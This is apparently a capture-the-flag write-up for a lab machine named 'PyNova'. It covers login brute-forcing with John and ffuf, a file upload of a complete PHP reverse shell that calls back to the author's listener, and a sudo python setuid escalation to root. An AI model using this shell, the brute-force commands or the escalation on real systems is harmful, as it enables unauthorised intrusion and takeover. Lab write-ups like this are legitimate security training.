

# PyNova

# Enumeration

### Rustscan

```bash
PORT     STATE SERVICE  REASON
21/tcp   open  ftp      syn-ack ttl 64
80/tcp   open  http     syn-ack ttl 64
443/tcp  open  https    syn-ack ttl 64
3306/tcp open  mysql    syn-ack ttl 64
8000/tcp open  http-alt syn-ack ttl 64
```

## Website Enumeration [8000]




Tried contact us page but submit button does nothing so that’s a deadend. But found Our team section this could be useful for username enumeration.


From the page source found a hidden path of /admin


### Users

```bash
pyl0v3r
r00t
and3rs
```

I created a wordlist of all possible passwords for this users using john

```bash
./john --wordlist=/mnt/c/Users/ugodu/word_list.txt --rules=Jumbo --min-length=6 --max-length=12 --stdout > /mnt/c/Users/ugodu/custom_wordlist.txt
```

Now to crack the password for pyl0v3r i used hydra but the status code from the server was 401 and hydra has limitation to work when status code is not 200 so i switched to ffuf 

```bash
ffuf -w custom_wordlist_py.txt   -X POST   -d "username=pyl0v3r&password=FUZZ"   -H "Content-Type: application/x-www-form-urlencoded"   -u http://192.168.0.218:8000/login   -fc 401
```

## RCE

I uploaded shell.php which i got from pentestmonkey and just replaced with my ip and port

```bash
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '172.25.136.60';
$port = 1337;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
        $pid = pcntl_fork();

        if ($pid == -1) {
                printit("ERROR: Can't fork");
                exit(1);
        }

        if ($pid) {
                exit(0);  // Parent exits
        }
        if (posix_setsid() == -1) {
                printit("Error: Can't setsid()");
                exit(1);
        }

        $daemon = 1;
} else {
        printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
        printit("$errstr ($errno)");
        exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
        printit("ERROR: Can't spawn shell");
        exit(1);
}

stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
        if (feof($sock)) {
                printit("ERROR: Shell connection terminated");
                break;
        }

        if (feof($pipes[1])) {
                printit("ERROR: Shell process terminated");
                break;
        }

        $read_a = array($sock, $pipes[1], $pipes[2]);
        $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

        if (in_array($sock, $read_a)) {
                if ($debug) printit("SOCK READ");
                $input = fread($sock, $chunk_size);
                if ($debug) printit("SOCK: $input");
                fwrite($pipes[0], $input);
        }

        if (in_array($pipes[1], $read_a)) {
                if ($debug) printit("STDOUT READ");
                $input = fread($pipes[1], $chunk_size);
                if ($debug) printit("STDOUT: $input");
                fwrite($sock, $input);
        }

        if (in_array($pipes[2], $read_a)) {
                if ($debug) printit("STDERR READ");
                $input = fread($pipes[2], $chunk_size);
                if ($debug) printit("STDERR: $input");
                fwrite($sock, $input);
        }
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

function printit ($string) {
        if (!$daemon) {
                print "$string\n";
        }
}

?>
```

Then i started netcat on my machine at 1337
Since i had only permissions to see daemon’s files i used python to change my uid to 0 which is usually root

```bash
sudo python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'
```

```bash
ugodu@MSI:~$ nc -lvnp 1337
Listening on 0.0.0.0 1337
Connection received on 172.25.128.1 7608
Linux ubuntuserver 6.8.0-106-generic #106-Ubuntu SMP PREEMPT_DYNAMIC Fri Mar  6 07:58:08 UTC 2026 x86_64 x86_64 x86_64 GNU/Linux
 20:43:05 up  5:38,  1 user,  load average: 3.57, 2.58, 2.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU  WHAT
ubuntu   tty2     -                15Mar26 13days  0.03s  0.03s /usr/libexec/gnome-session-binary --session=ubuntu
uid=1(daemon) gid=1(daemon) groups=1(daemon)
sh: 0: can't access tty; job control turned off
$ sudo python3 -c 'import os;os.setuid(0);os.system("/bin/bash")'

ls
bin
bin.usr-is-merged
boot
cdrom
dev
etc
home
lib
lib64
lib.usr-is-merged
lost+found
media
mnt
opt
proc
root
run
sbin
sbin.usr-is-merged
snap
srv
sys
tmp
usr
var
cd /root
ls
flag.txt
snap
vboxpostinstall.sh
cat flag.txt
PY{RCE_VIA_FILE_UPLOAD}
^C
```

Got the Flag: `PY{RCE_VIA_FILE_UPLOAD}`